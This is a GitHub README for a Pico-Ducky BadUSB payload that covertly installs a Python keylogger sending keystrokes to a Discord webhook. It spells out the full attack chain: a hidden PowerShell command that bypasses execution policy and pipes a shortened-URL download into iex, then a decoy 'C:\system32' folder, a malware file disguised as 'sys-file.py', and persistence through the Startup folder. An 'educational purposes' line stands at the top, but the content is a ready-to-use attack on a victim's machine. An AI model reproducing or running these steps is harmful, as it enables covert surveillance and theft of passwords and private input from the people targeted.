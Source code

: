 THIS IS ONLY MADE FOR EDUCATIONAL PURPOSES


# What it Does:

This payload executes a powershell command that downloads a python keylogger and runs it. This keylogger sends the keys pressed over discord using a webhook.

# Dependencies:

- Windows
- Python
- User is admin

# How to use:

## Pico-Ducky

If you have a [pico-ducky](https://github.com/dbisu/pico-ducky) which is what this payload was originally built for you just download the keylog-starter.dd and place it in the root of your pico directory. If you have a pico-ducky without wifi you need to rename it to ``payload.dd`` ``payload2.dd`` ``payload3.dd`` or ``payload4.dd`` read more here [here](https://github.com/dbisu/pico-ducky).

## P4wnP1 A.L.O.A

I am working on a version for HID script

## Any other ducky script compatible tools

I havent tested any others but if you do please open up an issue and tell me how it went

# How it Works:

## The rubber ducky script
When the grabber.dd runs it opens a run dialoge with admin privileges and enters this script.

```powershell
powershell -W h -NonI -NoP -Ep bypass -c "$dc = '<your discord webhook here>'; irm https://shorturl.at/blvGV | iex"
```
This line opens a hidden windows with ``-W h`` a non interactive windows with ``-NonI`` no user profiles with ``NoP`` and bypasses the anti script execution policy using ``-Ep bypass``
Then it sets the ``$dc`` variable to your webhook.
And last but not least it downloads the ekylog-activator.ps1 script and executes it. The download link is shortened to fit inside the run dialoge. (I want to host my own site in the future where i can have my own directly short links)

(copied from the [chrome password stealer](https://github.com/simen64/Pico-HID-Scripts/tree/main/chrome-password-stealerw) README thats made by me)

## The activator script

I used to have the bad usb enter all of these commands that sets the keylogger up, but i realised i can just paste it into a powershell script and shorten down the time that the usb needs to be plugged in drasticly. This is why the powershell script isnt really structured in a normal way, and i am to lazy to actually structure it because powershell scripting sucks. But if anyone wants to do it create a pull request.

### Commands ran by the ps script:

1. We make a directory called ``system32`` in the C: drive using mkdir ``C:\system32\``. I decided to call it ``system32`` as many people would not want to delete the a folder named system32.
2. Next we enter the directory using ``cd C:\system32\``
3. Then we run `iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile C:\system32\sys-file.py` to download the keylogger and spit it out as sys-file.py (again to trick the user to not deleting the file)
4. After we have the logger we install the needed libraries ``py -m pip install discordwebhook pynput``
5. Then we create a file called startup.bat to run the keylogger on startup ``'@echo off', 'start /B pythonw.exe "C:\system32\sys-file.py"' | Set-Content -Path 'C:\system32\startup.bat'``
6. To make it run at startup we need to copy it to the startup folder using this command ``cp 'C:\system32\startup.bat' '$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'`` this is why we need the user to be admin so we can access the startup folder
7. Last but now least we use this command ``Python sys-file.py <your discord webhook here>"`` to run the keylogger the webhook is being ported as an anrgument and will later saved in a file on the victims computer.
